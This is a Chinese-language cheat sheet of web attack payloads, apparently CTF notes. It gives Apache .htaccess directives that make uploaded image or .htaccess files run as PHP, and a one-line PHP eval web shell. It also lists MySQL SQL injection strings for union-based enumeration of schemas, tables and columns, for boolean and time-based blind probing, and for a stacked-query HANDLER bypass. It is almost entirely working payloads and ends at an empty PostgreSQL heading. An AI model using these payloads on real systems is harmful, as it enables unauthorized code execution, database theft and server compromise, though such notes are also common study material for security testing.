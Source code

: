 ### apache

上传.htaccess文件执行php文件

```bash
# way1
AddType application/x-httpd-php .png
# way2
.htaccess
php_value auto_append_file .htaccess
#<?php phpinfo();
#way3
SetHandler application/x-httpd-php
```

### phtml

```php
<script language='php'>eval($_POST[mz]);</script>
```







## SQL注入

### MySQL

#### 联合注入

```sql
union select 1,(select group_concat(schema_name) from information_schema.schemata),3--+
select group_concat(table_name) from information_schema.tables where table_schema='xxx'
select group_concat(column_name) from information_schema.columns where table_name='xxx'
```

#### 盲注

```sql
length(database())>=1
substr(database(),1,1)='t'
if(length(database())>1,sleep(5),1)
binary('a')-->控制大小写    # 或者使用ascii()好像也可
```

#### 一些绕过

```sql
# 用handler打开一个表的堆叠注入
1';handler FlagHere open;handler FlagHere read first;handler FlagHere close;#

```

### PostgreSQL
